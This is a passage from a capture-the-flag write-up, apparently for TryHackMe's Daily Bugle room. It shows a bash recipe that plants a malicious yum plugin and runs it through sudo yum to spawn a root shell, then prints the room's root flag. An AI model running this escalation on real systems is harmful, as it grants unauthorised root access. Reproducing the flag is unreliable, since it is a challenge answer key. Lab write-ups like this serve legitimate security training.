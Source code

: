 ```bash
cat >$TF/x<<EOF
[main]
plugins=1
pluginpath=$TF
pluginconfpath=$TF
EOF

cat >$TF/y.conf<<EOF
[main]
enabled=1
EOF

cat >$TF/y.py<<EOF
import os
import yum
from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
requires_api_version='2.1'
def init_hook(conduit):
  os.execl('/bin/sh','/bin/sh')
EOF

sudo yum -c $TF/x --enableplugin=y
sh-4.2# 
```
And the flag:
```bash
sh-4.2# whoami
root
sh-4.2# cat /root/root.txt
eec3d53292b1821868266858d7fa6f79
```
# Published
https://medium.com/@elnurbda/daily-bugle-tryhackme-ctf-17dae6b2ba4b
